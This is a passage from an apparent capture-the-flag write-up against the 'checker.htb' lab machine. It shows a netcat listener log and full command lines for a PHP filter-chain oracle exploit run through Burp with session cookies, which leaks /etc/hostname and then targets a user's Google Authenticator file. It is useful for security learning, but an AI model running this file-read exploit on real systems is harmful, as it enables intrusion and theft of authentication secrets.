 ```bash
response:
listening on [any] 8001 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.56] 60750
GET /TESTING HTTP/1.1
Host: 10.10.16.2:8001
Connection: close
Accept-language: en
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36

```

It works. Now let’s try out our exploit. Let’s get it to read something easy first like /etc/hostname. Copy the request from the burp request above. Also let’s route it back to our burp:

```bash
python3 filters_chain_oracle_exploit.py --target http://checker.htb/ajax/page/8/save-draft --verb PUT --parameter html --headers '{"Cookie": "teampass_session=2bnuqpnk5qtuunqker5u8m9q47; jstree_select=1; bookstack_session=eyJpdiI6InJMZERyVHV5WlZES0ExVWZRYWJScmc9PSIsInZhbHVlIjoiaTdkbm5qVEFiU3gzQTlGcm12Q3ZJYUd2WVowbm85dlhRMndGMElDUS9CWUNaaG9EdUlFaFJaN0Y4Zkh5Si8rMm9PdHFMNmRtYmFDeW54YnI2UkRzcUhCUTBiMzMrUlE2WC84VzlNKzYrcUE5WjA4b1JQYS8vUUxzQ0NiS2x6bnAiLCJtYWMiOiJkMThjMzcwMmRmZTY3ODdkMTQzYjJiMzBhY2IzNmJjMGU2NWZkMzI3YTkzMDBmMTZjYjBiYzY1YjYzNjhlMWFlIiwidGFnIjoiIn0%3D; XSRF-TOKEN=eyJpdiI6InV2RFdWWDVMYUpiSTJnNWVob241dkE9PSIsInZhbHVlIjoibWtOZVlXR1R3OGdHdXA1d1BtRXFKQk5PaDY5S05lVGN5dDdKckFuTDY1RVRHRUpTNU1Pc29mbmZJVFVSU213SXNMbFhyYVpjQmJCeTJZc0RxQ1h4RldJSXlWYWswVFBGVjFseU1mVmNXTHh1aEVjc1l4cXJmQlp6eEJ0d0k2emwiLCJtYWMiOiJlYzU0ODBiOTNmMjMwODBkMjI4MTlmNzVkMmMzMTg5MDQ4OWNjODY4ZTViZGJlZWZkZGUyMjhkNzQxNjljYTAzIiwidGFnIjoiIn0%3D; remember_standard_59ba36addc2b2f9401580f014c7f58ea4e30989d=eyJpdiI6IjAyc1FMOVJvYWRMeWI2U1pNaEQrMFE9PSIsInZhbHVlIjoidjNlcGtYYnRWRzliUFFMZmYrN1hzazVnSlpKc2hwbTYxQldQbnlUK0wxRlE5T3BaRWYvcUV0NjM2RUxScWlvaEl1QXNucGNZSTZpdFUvS1BUVlYyeGZsQWZ2WUNkM1JHUE9KR216UEsrdnVUWU5seGIvUUtKdHF3b3BDVXcvV2RpMzI3RmtzYi92akxIYVd3NXFCd3VjTURheHFoU2tsNkt6czYxbkQ4Vyt2RkU1WFRycG1aVlF6cWRJL0xsY1FZa09UT3ZJK2pHdk1TajlpUmVoRjh2Q1BHQk1PMm5hcHMzNXd6OEtFN1podz0iLCJtYWMiOiI1ZTJlNDc0OWIyYTA2NTY3YmM2ZWRmNmM3ODM4NTkyZDJmNTI2MmJiMzc5MGU1MTE2M2I5NDJiMmUwMTY2MzQ2IiwidGFnIjoiIn0%3D","X-CSRF-TOKEN":"UMS9LQo5W7c2BjScWscdjNA5gr253ibVbd47ZmW7"}' --proxy http://localhost:8082 --file /etc/hostname

[+] File /etc/hostname leak is finished!
Y2hlY2tl
b'checke'

```

Looks like it’s working. Now the default location for MFA for ssh is /home/reader/.google_authenticator. However attempting this path fails. 

```bash
python3 filters_chain_oracle_exploit.py --target http://checker.htb/ajax/page/8/save-draft --verb PUT --parameter html --headers '{"Cookie": "teampass_session=2bnuqpnk5qtuunqker5u8m9q47; jstree_select=1; bookstack_session=eyJpdiI6InJMZERyVHV5WlZES0ExVWZRYWJScmc9PSIsInZhbHVlIjoiaTdkbm5qVEFiU3gzQTlGcm12Q3ZJYUd2WVowbm85dlhRMndGMElDUS9CWUNaaG9EdUlFaFJaN0Y4Zkh5Si8rMm9PdHFMNmRtYmFDeW54YnI2UkRzcUhCUTBiMzMrUlE2WC84VzlNKzYrcUE5WjA4b1JQYS8vUUxzQ0NiS2x6bnAiLCJtYWMiOiJkMThjMzcwMmRmZTY3ODdkMTQzYjJiMzBhY2IzNmJjMGU2NWZkMzI3YTkzMDBmMTZjYjBiYzY1YjYzNjhlMWFlIiwidGFnIjoiIn0%3D; XSRF-TOKEN=eyJpdiI6InV2RFdWWDVMYUpiSTJnNWVob241dkE9PSIsInZhbHVlIjoibWtOZVlXR1R3OGdHdXA1d1BtRXFKQk5PaDY5S05lVGN5dDdKckFuTDY1RVRHRUpTNU1Pc29mbmZJVFVSU213SXNMbFhyYVpjQmJCeTJZc0RxQ1h4RldJSXlWYWswVFBGVjFseU1mVmNXTHh1aEVjc1l4cXJmQlp6eEJ0d0k2emwiLCJtYWMiOiJlYzU0ODBiOTNmMjMwODBkMjI4MTlmNzVkMmMzMTg5MDQ4OWNjODY4ZTViZGJlZWZkZGUyMjhkNzQxNjljYTAzIiwidGFnIjoiIn0%3D; remember_standard_59ba36addc2b2f9401580f014c7f58ea4e30989d=eyJpdiI6IjAyc1FMOVJvYWRMeWI2U1pNaEQrMFE9PSIsInZhbHVlIjoidjNlcGtYYnRWRzliUFFMZmYrN1hzazVnSlpKc2hwbTYxQldQbnlUK0wxRlE5T3BaRWYvcUV0NjM2RUxScWlvaEl1QXNucGNZSTZpdFUvS1BUVlYyeGZsQWZ2WUNkM1JHUE9KR216UEsrdnVUWU5seGIvUUtKdHF3b3BDVXcvV2RpMzI3RmtzYi92akxIYVd3NXFCd3VjTURheHFoU2tsNkt6czYxbkQ4Vyt2RkU1WFRycG1aVlF6cWRJL0xsY1FZa09UT3ZJK2pHdk1TajlpUmVoRjh2Q1BHQk1PMm5hcHMzNXd6OEtFN1podz0iLCJtYWMiOiI1ZTJlNDc0OWIyYTA2NTY3YmM2ZWRmNmM3ODM4NTkyZDJmNTI2MmJiMzc5MGU1MTE2M2I5NDJiMmUwMTY2MzQ2IiwidGFnIjoiIn0%3D","X-CSRF-TOKEN":"UMS9LQo5W7c2BjScWscdjNA5gr253ibVbd47ZmW7"}' --proxy http://localhost:8082 --file /home/reader/.google_authenticator
```
